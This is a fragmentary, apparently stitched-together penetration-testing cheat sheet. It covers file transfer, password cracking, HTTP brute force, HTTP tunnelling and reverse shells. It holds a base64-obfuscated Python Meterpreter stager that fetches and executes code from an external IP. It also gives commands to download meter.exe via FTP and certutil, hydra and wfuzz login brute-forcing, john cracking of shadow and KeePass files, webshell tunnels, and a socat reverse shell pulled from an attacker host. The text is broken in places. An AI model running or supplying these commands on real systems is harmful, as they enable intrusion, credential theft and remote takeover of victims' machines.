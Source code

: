 ```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt</ip> </pre>

server: `python -m pyftpdlib --port=2121 --write` **wget.exe** Upload to vulnerable server from kali: ` /usr/share/windows-binaries/wget.exe` `wget.exe http://<ip>/file file` **certutil** `certutil -urlcache -split -f https://<ip>/file.txt file.txt`

### Password Cracking

**zip** `fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip ` **/etc/shadow**

<pre>unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
</pre>

**keepass**

<pre>keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file
</pre>

### HTTP Brute Force

**wfuzz POST** ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php``` **hydra POST** ```hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20``` **wfuzz NTLM** ```wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api``` **wfuzz Basic Auth through Proxy** ```wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/ActivosProduban/names.txt -z file,/root/Documents/Audits/ActivosProduban/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/```

### TCP over HTTP

For this technique, it is necessary to be able to upload a file to a webserver. **1\. reGeorg** File upload to the server correct ![regeorge2](https://user-images.githubusercontent.com/7115563/33883424-028c9f0e-df3c-11e7-9559-b35667ae76db.png) Tunnel creation `python reGeorgSocksProxy.py -p 5555 -u "http://<ip>/admin/uploads/reGeorg.jsp"` Proxychains config ![regeorge1](https://user-images.githubusercontent.com/7115563/33883419-fcc15416-df3b-11e7-89a9-499ffc1de9cf.png)

<pre>proxychains nmap -F -sT 127.0.0.1
proxychains mysql -u root -p -h 127.0.0.1
proxychains ssh localhost
</pre>

![regeorge3](https://user-images.githubusercontent.com/7115563/33883422-017021fe-df3c-11e7-8f99-f02de5084c02.png) Reference: https://sensepost.com/discover/tools/reGeorg/ **2\. ABBTTS** Upload File ![abbtts5](https://user-images.githubusercontent.com/7115563/33883774-6d249ffa-df3d-11e7-9f3f-68bf1e70465f.png) Config proxychains and create the tunnel ```python abpttsclient.py -c tomcat_walkthrough/config.txt -u http://192.168.1.128/abptts.jsp -f 127.0.0.1:22222/127.0.0.1:22``` Usage ```ssh -p 22222 user@127.0.0.1``` ![abbtts7](https://user-images.githubusercontent.com/7115563/33883891-dc2f3c70-df3d-11e7-84e9-ebd9eab9ebee.png) Reference: https://github.com/nccgroup/ABPTTS

### Interactive Reverse Shell

Attacker: ```socat file:`tty`,raw,echo=0 TCP-L:4444``` Victim: ```wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444``` Socat Binary: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat

```